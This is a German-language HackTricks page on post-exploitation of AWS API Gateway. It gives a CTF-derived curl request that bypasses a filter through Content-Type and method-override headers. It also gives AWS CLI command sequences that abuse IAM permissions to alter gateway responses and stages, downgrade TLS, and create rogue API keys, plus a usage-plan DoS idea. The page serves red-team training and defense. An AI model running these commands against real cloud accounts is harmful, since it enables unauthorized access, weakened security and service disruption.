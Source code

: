 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## API Gateway

Für weitere Informationen siehe:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Zugriff auf nicht exponierte APIs

Du kannst einen Endpunkt in [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) mit dem Dienst `com.amazonaws.us-east-1.execute-api` erstellen, den Endpunkt in einem Netzwerk exponieren, auf das du Zugriff hast (potenziell über eine EC2-Maschine) und eine Sicherheitsgruppe zuweisen, die alle Verbindungen erlaubt.\
Dann wirst du von der EC2-Maschine aus auf den Endpunkt zugreifen und somit die Gateway-API aufrufen können, die zuvor nicht exponiert war.

### Umgehung des Request-Body-Passthrough

Diese Technik wurde in [**diesem CTF-Bericht**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp) gefunden.

Wie in der [**AWS-Dokumentation**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) im Abschnitt `PassthroughBehavior` angegeben, wird standardmäßig der Wert **`WHEN_NO_MATCH`**, beim Überprüfen des **Content-Type**-Headers der Anfrage, die Anfrage ohne Transformation an das Backend weiterleiten.

Daher hatte im CTF das API Gateway eine Integrationsvorlage, die **verhindert hat, dass das Flag in einer Antwort exfiltriert wird**, wenn eine Anfrage mit `Content-Type: application/json` gesendet wurde:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Allerdings würde das Senden einer Anfrage mit **`Content-type: text/json`** diesen Filter umgehen.

Schließlich, da das API Gateway nur `Get` und `Options` erlaubte, war es möglich, eine beliebige dynamoDB-Abfrage ohne Einschränkung zu senden, indem man eine POST-Anfrage mit der Abfrage im Body und dem Header `X-HTTP-Method-Override: GET` verwendete:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

Im Abschnitt **Enumeration** können Sie sehen, wie Sie den **Nutzungsplan** der Schlüssel **erhalten**. Wenn Sie den Schlüssel haben und er auf X Nutzungen **pro Monat** **beschränkt** ist, könnten Sie ihn **einfach verwenden und einen DoS verursachen**.

Der **API-Schlüssel** muss nur in einem **HTTP-Header** namens **`x-api-key`** **eingeschlossen** werden.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Ein Angreifer mit den Berechtigungen `apigateway:UpdateGatewayResponse` und `apigateway:CreateDeployment` kann **eine vorhandene Gateway-Antwort ändern, um benutzerdefinierte Header oder Antwortvorlagen einzuschließen, die sensible Informationen leaken oder bösartige Skripte ausführen**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potenzielle Auswirkungen**: Leckage sensibler Informationen, Ausführung bösartiger Skripte oder unbefugter Zugriff auf API-Ressourcen.

{% hint style="info" %}
Benötigt Tests
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Ein Angreifer mit den Berechtigungen `apigateway:UpdateStage` und `apigateway:CreateDeployment` kann **eine bestehende API Gateway-Stufe ändern, um den Datenverkehr auf eine andere Stufe umzuleiten oder die Caching-Einstellungen zu ändern, um unbefugten Zugriff auf zwischengespeicherte Daten zu erhalten**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potenzielle Auswirkungen**: Unbefugter Zugriff auf zwischengespeicherte Daten, Störung oder Abfangen von API-Verkehr.

{% hint style="info" %}
Benötigt Tests
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Ein Angreifer mit den Berechtigungen `apigateway:PutMethodResponse` und `apigateway:CreateDeployment` kann **die Methodenantwort einer bestehenden API Gateway REST API-Methode ändern, um benutzerdefinierte Header oder Antwortvorlagen einzuschließen, die sensible Informationen leaken oder bösartige Skripte ausführen**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potenzielle Auswirkungen**: Leck von sensiblen Informationen, Ausführung bösartiger Skripte oder unbefugter Zugriff auf API-Ressourcen.

{% hint style="info" %}
Benötigt Test
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Ein Angreifer mit den Berechtigungen `apigateway:UpdateRestApi` und `apigateway:CreateDeployment` kann **die Einstellungen der API Gateway REST API ändern, um das Logging zu deaktivieren oder die minimale TLS-Version zu ändern, was die Sicherheit der API potenziell schwächen kann**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potenzielle Auswirkungen**: Schwächung der Sicherheit der API, was möglicherweise unbefugten Zugriff oder die Offenlegung sensibler Informationen ermöglicht.

{% hint style="info" %}
Test erforderlich
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Ein Angreifer mit Berechtigungen `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` und `apigateway:CreateUsagePlanKey` kann **neue API-Schlüssel erstellen, diese mit Nutzungstarifen verknüpfen und dann diese Schlüssel für unbefugten Zugriff auf APIs verwenden**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Potenzielle Auswirkungen**: Unbefugter Zugriff auf API-Ressourcen, Umgehung von Sicherheitskontrollen.

{% hint style="info" %}
Test erforderlich
{% endhint %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
